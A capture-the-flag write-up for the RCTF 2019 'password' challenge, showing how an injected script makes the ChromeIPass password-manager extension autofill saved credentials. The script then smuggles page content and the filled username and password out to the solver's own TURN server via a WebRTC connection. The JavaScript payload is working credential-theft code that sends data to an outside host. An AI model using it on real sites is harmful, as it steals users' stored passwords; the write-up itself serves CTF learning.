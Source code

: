 ![](challenge.png)

Done with https://github.com/patriksletmo

This was a followup to [jail](../jail/Readme.md), so read that one first.

The description hints at a password manager that modifies the page. Lets try adding a login form and returning the resulting page in the same way as before. The only difference beeing that the page is to big for the username field, so we have to slice it and do it in multiple steps.


```html
<script>
    function x() {
        var auth = document.body.innerHTML.slice(-300); // Change the value to get different parts of the page

        function gotDescription(desc) {
            begin = window.performance.now();
            candidates = [];
            pc.setLocalDescription(desc);
        }

        function noDescription(error) {
            console.log('Error creating offer: ', error);
        }
        var pc = new RTCPeerConnection({
            "iceServers": [{
                "urls": ["turn:my.ip.address:3478"],
                "username": btoa(auth),
                "credential": "password1"
            }],
            "iceTransportPolicy": "all",
            "iceCandidatePoolSize": "0"
        });
        pc.createOffer({
            offerToReceiveAudio: 1
        }).then(gotDescription, noDescription);
    }

    function timer() {
        setTimeout(x, 1000);
    }
</script>
<html>

<body onload="timer()">
    <form id="" method="POST"><input type="text" autocomplete="on" name="username" id="username" /><input type="password" autocomplete="on" name="password" id="password" /><input type="submit" value="gö" /> </form>
</body>

</html>
```

This is what the full page looks like in the admins browser

```html
    <form id="" method="POST">
        <input type="text" autocomplete="off" name="username" id="username" data-cip-id="username" class="cip-ui-autocomplete-input"><span role="status" aria-live="polite" class="cip-ui-helper-hidden-accessible"></span>
        <input type="password" autocomplete="on" name="password" id="password" data-cip-id="password">
        <input type="submit" value="g�"> </form>
    <div class="cip-genpw-icon cip-icon-key-small" style="z-index: 2; top: 10px; left: 341px;"></div>
    <div class="cip-ui-dialog cip-ui-widget cip-ui-widget-content cip-ui-corner-all cip-ui-front cip-ui-draggable" tabindex="-1" role="dialog" aria-describedby="cip-genpw-dialog" aria-labelledby="cip-ui-id-1" style="display: none;">
        <div class="cip-ui-dialog-titlebar cip-ui-widget-header cip-ui-corner-all cip-ui-helper-clearfix"><span id="cip-ui-id-1" class="cip-ui-dialog-title">Password Generator</span>
            <button class="cip-ui-button cip-ui-widget cip-ui-state-default cip-ui-corner-all cip-ui-button-icon-only cip-ui-dialog-titlebar-close" role="button" aria-disabled="false" title="�"><span class="cip-ui-button-icon-primary cip-ui-icon cip-ui-icon-closethick"></span><span class="cip-ui-button-text">�</span></button>
        </div>
        <div id="cip-genpw-dialog" class="cip-ui-dialog-content cip-ui-widget-content" style="">
            <div class="cip-genpw-clearfix">
                <button id="cip-genpw-btn-generate" class="b2c-btn b2c-btn-primary b2c-btn-small" style="float: left;">Generate</button>
                <button id="cip-genpw-btn-clipboard" class="b2c-btn b2c-btn-small" style="float: right;">Copy to clipboard</button>
            </div>
            <div class="b2c-input-append cip-genpw-password-frame">
                <input id="cip-genpw-textfield-password" type="text" class="cip-genpw-textfield"><span class="b2c-add-on" id="cip-genpw-quality">123 Bits</span></div>
            <label class="cip-genpw-label">
                <input id="cip-genpw-checkbox-next-field" type="checkbox" class="cip-genpw-checkbox"> also fill in the next password-field</label>
            <button id="cip-genpw-btn-fillin" class="b2c-btn b2c-btn-small">Fill in &amp; copy to clipboard</button>
        </div>
    </div>
    <ul class="cip-ui-autocomplete cip-ui-front cip-ui-menu cip-ui-widget cip-ui-widget-content cip-ui-corner-all" id="cip-ui-id-2" tabindex="0" style="display: none;"></ul>
```

Which matches what the KeePass-compatible ChromeIPass extension generates. 

Apparently the extension only loads the autocomplete once you click on the username field, so we added `document.getElementById('username').click();`

This resulted in the following buttons being added

```html
<a id="cip-ui-id-3" class="cip-ui-corner-all" tabindex="-1">fake_flag (http://jail.2019.rctf.rois.io/)</a></li><li class="cip-ui-menu-item" role="presentation"><a id="cip-ui-id-4" class="cip-ui-corner-all" tabindex="-1">flag (http://jail.2019.rctf.rois.io/)</a>
```

Lets click on it with `document.getElementById('cip-ui-id-4').click()?` and then grab the content of the username and password field with `document.getElementById('username').value+':'+document.getElementById('password').value;`

```console
$ echo ZmxhZzpyY3Rme2twSHR0cF9tNHlfbGVha191cl9wd2R9|base64 -d
flag:rctf{kpHttp_m4y_leak_ur_pwd}
```

[View the full attack script](password.py)